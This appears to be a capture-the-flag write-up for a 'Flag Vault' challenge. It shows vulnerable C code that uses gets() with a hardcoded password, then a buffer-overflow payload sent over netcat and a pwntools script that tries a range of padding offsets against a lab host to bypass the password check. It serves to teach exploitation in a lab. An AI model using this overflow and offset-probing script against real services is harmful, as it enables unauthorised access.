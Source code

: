 Cipher asked me to create the most secure vault for flags, so I created a vault that cannot be accessed. You don't believe me? Well, here is the code with the password hardcoded. Not that you can do much with it anymore.
>source code

```C
#include <stdio.h>
#include <string.h>

void print_banner(){
        printf( "  ______ _          __      __         _ _   \n"
                " |  ____| |         \\ \\    / /        | | |  \n"
                " | |__  | | __ _  __ \\ \\  / /_ _ _   _| | |_ \n"
                " |  __| | |/ _` |/ _` \\ \\/ / _` | | | | | __|\n"
                " | |    | | (_| | (_| |\\  / (_| | |_| | | |_ \n"
                " |_|    |_|\\__,_|\\__, | \\/ \\__,_|\\__,_|_|\\__|\n"
                "                  __/ |                      \n"
                "                 |___/                       \n"
                "                                             \n"
                "Version 1.0 - Passwordless authentication evolved!\n"
                "==================================================================\n\n"
              );
}

void print_flag(){
        FILE *f = fopen("flag.txt","r");
        char flag[200];

        fgets(flag, 199, f);
        printf("%s", flag);
}

void login(){
        char password[100] = "";
        char username[100] = "";

        printf("Username: ");
        gets(username);

        // If I disable the password, nobody will get in.
        //printf("Password: ");
        //gets(password);

        if(!strcmp(username, "bytereaper") && !strcmp(password, "5up3rP4zz123Byte")){
                print_flag();
        }
        else{
                printf("Wrong password! No flag for you.");
        }
}

void main(){
        setvbuf(stdin, NULL, _IONBF, 0);
        setvbuf(stdout, NULL, _IONBF, 0);
        setvbuf(stderr, NULL, _IONBF, 0);

        // Start login process
        print_banner();
        login();

        return;
}
```

- the programme asks us for username, and to print the flag the programme need a correct username and password (`bytereaper`, `5up3rP4zz123Byte`) , since the password is disabled, we have to do a buffer overflow to bypass the password check to do that we have to exploit `gets()` function. 
- All we have to do is calculate the correct offset
- we can start our payload with the username, include a null terminator, then include the correct offset, and finally the password

## **exploitation :**

- we are trying to inject payload `bytereaper\x00 + "A"*90 + 5up3rP4zz123Byte` : 
	- command that we can use : `python -c 'bytereaper\x00 + "A"*90 + 5up3rP4zz123Byte' | nc IP_ADDRESS 1337`
	- ![](https://github.com/zakaria-mghili/writeups_HackfinityBattle_2025/blob/756de3fdc7cb63f5f956c9045102c222f814def4/img/2025-03-25%2021_41_05-TryHackMe%20_%20Hackfinity%20Battle%20Encore%20-%20Brave.png)
>The exploitation didn't work

- it didn't work because there is an alignement , we can use the following script to add the correct offset 
```python
from pwn import *

 IP = "10.10.81.220"
 PORT = 1337 

 username = b"bytereaper\x00"
 password = b"5up3rP4zz123Byte"

 for offset in range(100,130):
     padding = b"A"* offset
     payload = username + padding + password

     print(f"#### Trying offset: {offset}")

     try:
        p=remote(IP, PORT)
        p.sendline(payload)
        response=p.recvall().decode(errors="ignore")
        p.close()

        if "Wrong password!" not in response:
            print(f"\n Success at Offset {offset}!\n")
            print(response)
            break

        print(f" Offset {offset} failed.")

    except Exception as e:
        print(e)

print("\n testing is finish")
                             
```

> after running this command ,the result is : 

![](https://github.com/zakaria-mghili/writeups_HackfinityBattle_2025/blob/756de3fdc7cb63f5f956c9045102c222f814def4/img/2025-03-25%2023_23_11-Flag%20Vault%20-%20obsidian%20-%20Obsidian%20v1.8.9.png)
